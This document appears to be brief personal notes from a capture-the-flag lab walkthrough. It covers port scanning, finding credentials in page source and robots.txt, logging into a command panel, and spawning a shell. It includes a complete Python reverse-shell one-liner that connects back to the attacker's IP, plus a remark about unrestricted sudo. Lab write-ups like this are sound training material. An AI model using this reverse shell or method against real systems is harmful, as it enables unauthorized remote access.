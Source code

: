start with nmap

http:

in index page source code found

```
<!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->

```

in `robots.txt` found : `Wubbalubbadubdub`

fuff with big list.

nothig interested found

nitko scan.


***

got login.php

log in using above creds. : `R1ckRul3s:Wubbalubbadubdub`

cmd execution functionality:

get rev using python3

```python3
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.133.3",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

anyone can run sudo .
